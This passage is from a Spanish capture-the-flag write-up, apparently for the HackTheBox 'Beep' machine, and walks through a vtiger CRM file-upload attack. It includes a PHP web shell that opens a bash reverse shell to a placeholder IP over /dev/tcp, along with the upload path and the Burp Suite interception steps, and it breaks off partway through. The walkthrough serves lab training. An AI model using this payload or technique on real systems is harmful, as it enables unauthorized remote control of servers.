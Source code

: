 <br>

Investigando un poco, hay una forma subir un archivo malicioso que nos de una **Reverse Shell**:

* https://packetstormsecurity.com/files/89823/vtiger-CRM-5.2.0-Shell-Upload.html
* https://www.exploit-db.com/exploits/9450

Aunque esto es para una versión superior (**vtiger CRM 5.2.0**) y también anterior (**vtiger CRM 5.0.4**), vamos a probar si funciona, utilizando ambos como guia. Hagamoslo por pasos:

* Creamos un archivo malicioso en PHP que contenga un Payload de **Reverse Shell**, llamalo **cmd.php** o como quieras:
```bash
<?php
        system("bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'");
?>
```

* Entramos a la siguiente ruta de la página:
```bash
/vtigercrm/index.php?action=upload&module=uploads
```

* Abrimos burpsuite para capturar esta página:
```bash
burpsuite &> /dev/null & disown
```

* Cargamos el **cmd.php** y lo guardamos, con esto capturaremos el trafico y podremos manipular la petición:

<p align="center">
<img src="/assets/images/htb-writeup-beep/Captura11.png">
</p>

<p align="center">